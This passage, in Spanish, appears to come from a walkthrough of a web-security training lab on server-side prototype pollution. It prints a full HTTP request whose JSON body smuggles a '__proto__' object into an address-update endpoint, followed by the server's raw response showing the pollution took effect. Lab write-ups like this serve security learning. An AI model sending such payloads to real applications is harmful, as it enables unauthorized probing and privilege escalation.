 Teniendo en cuenta lo anterior, enviamos la siguiente peticion:

{% code overflow="wrap" %}
```json
POST /my-account/change-address HTTP/2
Host: 0ade001c03d1540682f0971f00b70020.web-security-academy.net
Cookie: session=9Z8pN21fPP7CZIMDolCzh7uAfP6FL594
Content-Length: 208
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0ade001c03d1540682f0971f00b70020.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ade001c03d1540682f0971f00b70020.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"9Z8pN21fPP7CZIMDolCzh7uAfP6FL594","__proto__": {
    "json spaces":10
}}
```
{% endcode %}

Y lo anterior, entrego la siguiente respuesta en raw:

```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"14e-/rxYzhSfiD4zL1vVonmGpZgVmW0"
Date: Tue, 25 Jun 2024 21:11:52 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 334

{
          "username": "wiener",
          "firstname": "Peter",
          "lastname": "Wiener",
          "address_line_1": "Wiener HQ",
          "address_line_2": "One Wiener Way",
          "city": "Wienerville",
          "postcode": "BU1 1RP",
          "country": "UK",
          "isAdmin": true,
          "json spaces": 10
}
```
